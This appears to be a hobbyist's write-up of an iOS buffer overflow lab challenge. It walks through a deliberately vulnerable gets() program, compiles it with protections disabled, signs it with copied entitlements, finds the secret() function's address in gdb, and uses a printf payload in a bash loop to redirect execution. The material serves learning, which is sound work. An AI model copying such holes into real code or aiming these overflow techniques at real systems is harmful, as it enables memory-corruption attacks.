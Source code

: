 # iOS Buffer Overflow attack

This program is the start of my journey. I always loved jailbreaking since I was young but I disliked programming (given by the D- I received in AP Computer science). It wasnt until university until I knew that I wanted to do things revolving around iOS. 
Eventually I switched my major to computer science and got into iOS development and it wasn't until recently I got into exploitation and the nitty gritty of iOS internals. This is the beginning of my journey and I hope you tear it apart because I will probably learn from it.

Im also doing this in VIM because I want to learn it so godspeed.

The challenges in these writeups are from [Billy Ellis](https://github.com/Billy-Ellis/Exploit-Challenges). Although Im going through his book at the time these may be different than the ones he has uploaded on github.

## The program
------
```
#include <stdio.h>
#include <stdlib.h>

void secret() {
    printf("You found the secret! Buffer overflow challenge completed!i\n");	
}
int main( int argc, char *argv[]) {
    char buff[8];
    printf("Enter a string: \n");
    gets(buff);
    printf("You entered: %s\n", buff);
	return 0;
}
```

Lets walk through this step by step. At the top is the header, `<stdio.h>` imports the standard input and output header, hence the "stdio" name. After that is the function named secret which prints out a statement that you've completed the challenge, more on that later.

After this is the main() function. This contains a character buffer that is meant to store your input, specifically, 8 characters. After this statement is a printf asking for your input and then a gets(). This is where the vulnerability lies.

Essentially it takes the string that you entered "%s" and tries to stuff it inside of a 8 character array. Since gets doesn't do any checks on whether your input will actually fit inside or not, it's prone to buffer overflows. The point of a buffer overflow attack is essentially to give enough random input so that you can **overwrite** the link register aka the _return address_ and effectively redirecting the control flow of the program to wherever you desire.
Usually the place you redirect to *bypasses* the security measures put in place by the program.

Now, I am doing this on an iPhone SE running 11.2.6 on the unc0ver jailbreak. So I am compiling the program on the device.

## The setup
------
First I want to compile the program.

`
clang buffer_overflow.c -isysroot $THEOS/sdks/iPhoneOS11.2.sdk/ -fno-stack-protector -fno-pic -o buffer_overflow
`

First I use clang, which can be downloaded through cydia. Then the next argument is the program, in this case buffer_overflow.c and then isysroot and the path to it. I have theos installed on device with some sdks so I use the ios11.2 SDK which is necessary to compile on ios11. Finally come the arguments to essentially make the program vulnerable.

-fno-stack-protector stands for "force no stack protector", this tells the program to disable the stack smasher that prevents stack overflows from happening. These arguments are provided by Billy Ellis so I am adding them as well. -fno-pic stands for force no position independant code. This protects against buffer overflows by forcing the program to not have ASLR enabled. Address space layout randomization randomizes where executable are loaded into memory rather than keeping the addresses the same.

Although it doesn't completly remove ASLR it makes it more vulnerable (apparently).

**Definiton:** Address space layout randomization (ASLR) is a memory-protection process for operating systems (OSes) that guards against buffer-overflow attacks by randomizing the location where system executables are loaded into memory.
 
To make the executable run on the device it has to be signed. 

`
mobile@ven1xus-SE:~/programs/challenges$ ldid -e /bin/ls
`
```
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>platform-application</key>
	<true/>
	<key>com.apple.private.skip-library-validation</key>
	<true/>
</dict>
</plist>
mobile@ven1xus-SE:~/programs/challenges$ ldid -e /bin/ls > ent.plist
mobile@ven1xus-SE:~/programs/challenges$ ldid -Sent.plist buffer_overflow
```

The first command run essentially prints out the entitlement used for signing the ls command. I then take this entitlement and put it into a file that I can use to sign my own programs. Finally I sign buffer_overflow with the ls entitlement.

It is required to sign executables on iOS devices because it is a security measure implemented by apple back in iOS 2 or something like that.


## Analysis
------
Now we have to analyze the binary, so I will use GDB (Gnu Debugger) or send it over to my MacBook using scp.

`
tommy@ven1xus-mbp:~$ scp -P 2222 mobile@localhost:~/programs/challenges/buffer_overflow ~/Desktop/bufferOverflow/
`

Keep in mind that my phone is hooked up via USB so thats why scp -P 2222 is used. This command works as follows:

1. **scp -P 2222 mobile@localhost:** - This means to login as the user "mobile" at your computers port 2222 which my iPhone is hooked up to. Meaning to login to the iPhone

2. **~/programs/challenges/buffer_overflow** - This is the location of the buffer_overflow file we need to acquire.

3. **~/Desktop/bufferOverflow/** - This is the location I want to move it do on my MacBook.

So now that you have the buffer_overflow executable where you want it run gdb on the executable.
`
mobile@ven1xus-SE:~/programs/challenges$ gdb buffer_overflow
`

and then disassemble the secret function so we can see where the start address of the function is.

```
(gdb) disas secret 
Dump of assembler code for function secret:
   0x0000000100007e7c <+0>:	sub	sp, sp, #0x20
   0x0000000100007e80 <+4>:	stp	x29, x30, [sp,#16]
   0x0000000100007e84 <+8>:	add	x29, sp, #0x10
   0x0000000100007e88 <+12>:	adrp	x0, 0x100007000
   0x0000000100007e8c <+16>:	add	x0, x0, #0xf58
   0x0000000100007e90 <+20>:	bl	0x100007f1c
   0x0000000100007e94 <+24>:	stur	w0, [x29,#-4]
   0x0000000100007e98 <+28>:	ldp	x29, x30, [sp,#16]
   0x0000000100007e9c <+32>:	add	sp, sp, #0x20
   0x0000000100007ea0 <+36>:	ret
End of assembler dump.
```

As you can see the memory address of the function is `0x0000000100007e7c`

## Exploit
------
Now we have to see how many characters gets() can put into the buffer by adding characters until an illegal instruction is thrown. For me it was ~33 characters.

```
mobile@ven1xus-SE:~/programs/challenges$ printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD" | ./buffer_overflow 
Enter a string: 
warning: this program uses gets(), which is unsafe.
You entered:  AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD
Illegal instruction: 4
```

Now since iOS is in little endian format, we have to put the bytes at the end of that long string so the instruction pointer can point to the secret function like so.

`
mobile@ven1xus-SE:~/programs/challenges$ printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD\x7c\x7e\x00\x00\x01" | ./buffer_overflow 
`

Now since this will throw a segmentation fault, your going to have to write a script to run this like command until the secret function is found and the stars aligned. I wrote the script in bash like so.

```
#!/bin/bash
for i in {1..100000}
do
        printf " AAAAAAAABBBBBBBBCCCCCCCCDDDDDDD\x7c\x7e\x00\x00\x01" | ./buffer_overflow
done
```

Running this gives the follows eventually.

![Final output](complete.png)

**Congratulations you've done a buffer overflow on iOS!**

